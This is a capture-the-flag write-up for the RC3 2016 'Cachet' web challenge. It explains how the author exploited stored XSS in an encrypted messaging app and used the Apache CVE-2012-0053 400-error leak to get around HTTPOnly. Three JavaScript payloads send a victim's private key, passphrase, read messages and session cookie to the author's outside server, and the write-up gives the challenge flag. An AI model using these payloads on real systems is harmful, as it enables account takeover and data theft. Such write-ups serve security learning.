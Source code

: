 # Web 500 (Cachet)

# Scenario
We need you. Things have been crazy with all the leaks lately. Apparently somebody gave one of our clients a tip that Julian Assange has acquired some devastating data about the US government. Our client has asked us to get this data for them. They're saying they can sell this data and makes lots of money of off it or something. Doesn't matter, they're paying us as long as we can get the data for them. The only tip we have is that Julian has been using this new security and privacy focused messaging app called Cachet to communicate with the source of the leaked data. He's supposedly taken a liking to it and uses it pretty frequently. Our interns looked at it but haven't had any luck, so we need your expertise on this one.

# TL;DR solution

Get XSS on user julianassange via the enc-msg POST param when sending him a message. Use this XSS to get his private key and passphrase (julianassange reads all messages sent to him). Then use this XSS to read the read.php for julianassange, where you'll find a subject that mentions what his PIN is. Then the only possible way (at least i think) to read his message is to steal his session cookie, which is set to HTTPOnly. You can get it by forcing him to make a request to the dev site on port 8000 that results in a 400 response, b/c the dev site is running apache 2.2.21 which has [this](https://www.cvedetails.com/cve/CVE-2012-0053/) vuln, so the full HTTP request that caused the 400 resposne will be returned.

# More details

So as the scenario points out, Julian Assange is the target. If you go to the search page (find.php), you can enumerate all the valid uses by entering % into the field. User 3 is julianassange, which is the target. After exploring the site, one would eventually realize that one of the view vectors available are XSS. This is made possible when sending a message to another user. Since the encryption of the message happens client side, the message is sent encrypted already to the server. When viewing a message, the devs must have thought nobody could enter malicious HTML in the encrypted message so they didn't HTML encode it resulting in XSS on a user reading a message to them before decrypting it. The POST parameter to intercept and add your XSS payload to would be enc-msg, and this could be done by proxying your traffic through Burp Suite or similar tool. So here is a POC to get the first items required, the private key and passphrase:

```javascript
<script>
function decrypt_message() {
    var key = document.getElementById("privkey").value;
    var pass = document.getElementById("msg-subject").value;
    var oReq = new XMLHttpRequest();
    oReq.open("GET", "http://lukeis.sexy/?key=" + key + "?pass=" + pass);
    oReq.send();

    decryptMessage();
}
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("decrypt-button").onclick = decrypt_message;
}, false);
</script>
```

This POC overrides the functionality of the decrypt button so that my own function runs first to get data and send it to my server, then calls the original decrypt message so the user doesn't suspect anything (though this isn't needed). My function gets the private key and passphrase and uses an XMLHttpRequests (xhr) to send the data to a server that I own. Next, the PIN is required as well as some original message sent to julianassange. So poking around is the next option, which can be done by requesting the other pages and seeing what they have. This POC gets the read messages page:

```javascript
<script>
var oReq = new XMLHttpRequest();
oReq.onreadystatechange = function(){
if(oReq.readyState === XMLHttpRequest.DONE) {
    var xhr = new XMLHttpRequest();
    console.log(oReq.responseText);
    xhr.open("GET", "http://lukeis.sexy/?read=" + oReq.responseText);
    xhr.send();
}
};
oReq.open("GET", "/read.php");
oReq.send();
</script>
```

The astute reader will realize that there will be too much data in the URL to show up in regular access logs for the request to my server. However, I am lazy and didn't want to write this up using POST request which would have been effective at sending all the data. But seeing the results of the read page, one of the subject messages says that julianassange's PIN is his birthday. This is in the format of MMDDYYYY, so 03071971 for julianassange. At this point, many believed that they could use the XSS to CSRF the user and get the message that they received from the darkarmy account (as seen in the results of the read page). But that would be too easy. So the referer is checked to make sure the request came from the bot (which ran locally) and that it ended with messages.php?id=X, where X is the message ID trying to be read. This should prevent CSRF b/c you would have to force the user to go to the messages.php?id=X page and then XSS them from there. Without the referer check the CSRF would be possible, but with it there shouldn't be a way to perform CSRF successfully. Although people are crafty and may have come up with ways around this (some users claimed they bypassed it using iframes when testing against themselves). There was a twitter picture that showed a call to a function called referer_good(), which should have hinted that there was a referer check when reading messages. So then one possibility to read the message would be to get it from the database, but there were not any intentional SQL injections put into the app so this shouldn't have been a viable option. The way to read julianassange's messages was to get his session cookie (PHPSESSID). These cookies were good for up to 2 weeks. But the darn HTTPOnly flag was set on the cookies, so getting it via javascript in an XSS wouldn't work. Except, that's exactly how you would get this cookie. You just can't call document.cookie, there is a different way. The dev server was running on port 8000 and the Apache version was running 2.2.21, which has [this](https://www.cvedetails.com/cve/CVE-2012-0053/) vulnerability which returns the full request in the response when the response is a 400 error. So if you can figure out how to make a request to the dev server from julianassange that results in a 400 error you could get the cookie in the result to that request and send that off to your server. The /dev/ page on the main/prod site mentioned that security team wanted them to patch the server so they just moved it to dev, which was true and was the only valuable piece of information on the /dev/ page. The creds and command injections were just distractions. Another odd thing is that the dev site has 2 CORS headers set. Without these headers, the response from the dev server wouldn't be accessible via javascript. The "Access-Control-Allow-Credentials" header allows the cookie to be sent to the dev server, and the "Access-Control-Allow-Origin" header allows the response to be returned to the caller so it can read the response. So here's a POC to get the session cookie from julianassange:

```javascript
<script>
document.cookie = "test=" + Array(4000).join("A");
document.cookie = "test2=" + Array(4000).join("A");
document.cookie = "test3=" + Array(4000).join("A");
var oReq = new XMLHttpRequest();
oReq.onreadystatechange = function(){
if(oReq.readyState === XMLHttpRequest.DONE) {
    var xhr = new XMLHttpRequest();
    console.log(oReq.responseText);
    xhr.open("GET", "http://lukeis.sexy/?phpsessid=" + oReq.responseText);
    xhr.send();
    document.cookie = "test=B"; //so other requests aren't borked
    document.cookie = "test2=B";
    document.cookie = "test3=B";
}
};
oReq.open("GET", "http://54.172.225.153:8000");
oReq.withCredentials = true;
oReq.send();
</script>
```

With all this information, you can now login as julian assange by spoofing his PHPSESSID cookie. Then you go to the read messages page and click on the one from darkarmy. You enter the PIN which you figured out previously (03071971), then you enter the private key and passphrase and the message would be decrypted which contained the flag and a fun zip file with some bidenbro memes.

Flag: RC3-2016-12409901
